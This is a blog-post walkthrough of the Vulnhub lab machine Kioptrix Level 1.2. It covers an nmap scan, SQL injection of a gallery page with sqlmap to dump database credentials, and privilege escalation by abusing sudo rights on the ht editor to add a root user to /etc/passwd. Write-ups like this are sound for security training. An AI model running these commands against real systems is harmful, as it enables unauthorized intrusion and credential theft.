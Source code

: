 ```yaml
---
layout: post
title:  "KIOPTRIX: LEVEL 1.2 Vulnhub Walkthrough"
date:   2020-09-27 15:00:00 +0530
categories: VulnHub CTF
---
```

KIOPTRIX: LEVEL 1.2 is a machine in which I used SQL Injection to get useres credintials to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always, I started scanning with Nmap

```
root@kali:/home/kali# nmap -sV -sC -p- 192.168.198.143
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-27 21:03 EDT
Nmap scan report for kioptrix3.com (192.168.198.143)
Host is up (0.0030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:2C:61:46 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds

```
A Normal HTTP and SSH Services
## HTTP Services 
So First I tried to browse the website and found a suspicous URL. And Adding the single quotation giving me a MySQL error so it's vulnerable to SQL Injection.
```
http://192.168.198.143/gallery/gallery.php?id=1&sort=photoid#photos
```

## SQL Injection
So Imeditatly I ran SQLMAP to exploit, dump database and evnatioly crack the hashes found in the database.
```
sqlmap -u 192.168.198.143/gallery/gallery.php?id=1 --dump
```

![Username](/assets/machines/vulnhub/KL12/1.png)

Then I ssh'd to user loneferret.

## Privilege Escalation 
I ran diffreent Enumeration scripts and found an intersting sudo privileges.

```
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```
The su binary path is wrong and it has ! mark. The ht binary is a text and hex editor so I had many ideas in this case.

1. Read /etc/shadow and get root hash then crack it with john (SUCCESS)
2. Write in /etc/passwd a new user with root privliges (SUCCESS)
3. Write in /etc/sudoers and change the su binary path (SUCCESS)

But first I had to fix some errors

```
loneferret@Kioptrix3:~$ sudo ht
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm
```

Then i opened /etc/passwd and added yoyo -root- user.

![Username](/assets/machines/vulnhub/KL12/2.png)

Then I logged in using ssh to the created user.
```
kali@kali:~$ ssh yoyo@192.168.198.143
yoyo@192.168.198.143's password: 
Last login: Mon Apr 18 11:29:13 2011
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
root@Kioptrix3:~# cat Congrats.txt 
Good for you for getting here.
Regardless of the matter (staying within the spirit of the game of course)
you got here, congratulations are in order. Wasn't that bad now was it.

Went in a different direction with this VM. Exploit based challenges are
nice. Helps workout that information gathering part, but sometimes we
need to get our hands dirty in other things as well.
Again, these VMs are beginner and not intended for everyone. 
Difficulty is relative, keep that in mind.

The object is to learn, do some research and have a little (legal)
fun in the process.

I hope you enjoyed this third challenge.

Steven McElrea
aka loneferret
http://www.kioptrix.com

Credit needs to be given to the creators of the gallery webapp and CMS used
for the building of the Kioptrix VM3 site.

Main page CMS: 
http://www.lotuscms.org

Gallery application: 
Gallarific 2.1 - Free Version released October 10, 2009
http://www.gallarific.com
Vulnerable version of this application can be downloaded
from the Exploit-DB website:
http://www.exploit-db.com/exploits/15891/

The HT Editor can be found here:
http://hte.sourceforge.net/downloads.html
And the vulnerable version on Exploit-DB here:
http://www.exploit-db.com/exploits/17083/

Also, all pictures were taken from Google Images, so being part of the
public domain I used them.

```
and voila here is the root privilege!





